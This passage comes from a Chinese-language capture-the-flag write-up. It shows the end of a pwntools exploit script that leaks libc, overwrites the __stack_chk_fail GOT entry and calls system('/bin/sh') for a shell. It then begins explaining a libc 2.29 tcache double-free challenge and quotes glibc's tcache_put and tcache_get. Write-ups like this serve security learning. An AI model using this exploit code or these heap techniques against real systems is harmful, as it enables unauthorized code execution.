 ```
	p.recvn(4)
	data = u32(p.recvn(4))
	libc_base = data - libc.symbols["getchar"]
	system = libc_base + libc.symbols["system"]
	binsh = libc_base +next(libc.search('/bin/sh')) 
	
	print hex(data)
	print hex(libc_base)
	print hex(system)
	print hex(binsh)
	
	p.recv()
	p.sendline(str(2))
	
	p.recv()
	payload = str(puts_plt)
	payload = payload.ljust(0x10,"\x00")
	payload += p32(0x64) + p32(0) + p32(0) + p32(__stack_chk_fail_got)
	p.sendline(payload)
	#gdb.attach(p,"b *0x8048920")
	p.recv()
	payload = str(puts_plt)
	payload = payload.ljust(0x10,"\x00")
	payload += p32(0x0) + p32(0) + p32(0) + p32(bss) + "aaaa" +"bbbb" + "cccc" + "dddd"+ p32(system) + p32(0) + p32(binsh)
	p.sendline(payload)
	
	p.interactive()

exp()
```


### girlfriend
这道题的bug不难找，直接就是释放后没有删除指针可以进行double free。但是难点在于环境是libc2.29，这道题的环境是在ubuntu19.04下做了，比赛的时候辗转16.04和18.04都很难受，后来专门查了libc2.29的特点是，在free 放到tcache里面的时候检查了double free，但是当我们可以用tcache链表大小只有7个的特点，先把他填满再做double free。下面我用调试的方法来解释这道题的做法，过程中可以体会到tcache的一些特殊的机制。

### 调试过程
首先是泄露地址，有两个办法，一个是申请一个大于0x408的再free就不会放到tcache上，而是放到smallbin(?)里面。另外一个是申请超过7个大于fastbin的堆块(9个)，然后再free掉7个八tcache填满，再free两个的时候就会放到unsortedbin里面去，再show就有libc了。下面做一些相关知识介绍：
tcache有两个重要的函数，` tcache_get() `和` tcache_put()`

```
static void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
  assert (tc_idx < TCACHE_MAX_BINS);
  e->next = tcache->entries[tc_idx];
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}

static void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  assert (tc_idx < TCACHE_MAX_BINS);
  assert (tcache->entries[tc_idx] > 0);
  tcache->entries[tc_idx] = e->next;
  --(tcache->counts[tc_idx]);
  return (void *) e;
}
```